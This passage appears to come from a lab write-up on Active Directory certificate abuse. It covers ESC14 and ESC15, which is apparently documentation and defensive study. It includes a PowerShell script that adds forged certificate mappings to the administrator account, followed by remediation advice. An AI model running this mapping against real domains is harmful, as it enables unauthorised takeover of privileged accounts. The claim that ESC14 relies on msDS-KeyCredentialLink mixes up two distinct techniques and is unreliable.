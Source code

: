 ```bash
$certificates = @(
    "X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>6100000000001a68816e592b078921100000043",
    "X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>6100000000001a68816e592b078921100000044",
    "X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>6100000000001a68816e592b078921100000045"
)

foreach ($cert in $certificates) {
    $currentMappings = (Get-ADUser administrator -Properties altSecurityIdentities).altSecurityIdentities
    $newMappings = $currentMappings + $cert
    Set-ADUser administrator -Replace @{'altSecurityIdentities' = $newMappings}
}

# Verify multiple mappings
Get-ADUser administrator -Properties altSecurityIdentities | Select-Object -ExpandProperty altSecurityIdentities

X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>6100000000001a68816e592b078921100000043
X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>6100000000001a68816e592b078921100000044
X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>6100000000001a68816e592b078921100000045
```

### Key Differences from ESC10

ESC14 differs from ESC10 in several important ways:
- **Shadow Credentials**: Uses `msDS-KeyCredentialLink` instead of traditional certificate enrollment
- **Cross-Domain Abuse**: Sophisticated mapping across domain boundaries
- **Advanced Persistence**: Multiple mapping techniques for redundancy
- **Bypasses Traditional Controls**: Works around many ADCS security measures

### Remediation

1. **Monitor Key Attributes**: Watch for changes to `msDS-KeyCredentialLink` and `altSecurityIdentities`
2. **Restrict Permissions**: Limit write access to user objects, especially high-privilege accounts
3. **Cross-Domain Hardening**: Implement strict certificate mapping validation across domain boundaries
4. **Regular Audits**: Periodically audit certificate mappings and shadow credentials

## ESC15: Version 1 Template Application Policies (CVE-2024-49019)

ESC15, also known as "EKUwu", exploits a vulnerability in version 1 certificate templates where attackers can specify arbitrary Application Policies in certificate requests, overriding the template's intended Extended Key Usage. This vulnerability was discovered by Justin Bollinger from TrustedSec and reported to Microsoft in October 2024.

### Technical Background

- **Application Policies** (OID 1.3.6.1.4.1.311) are Microsoft's proprietary extension
- When both Application Policy and EKU exist, **Application Policy takes precedence**
- Version 1 templates don't validate Application Policy fields in requests
- Attackers can add dangerous policies like Certificate Request Agent or Client Authentication
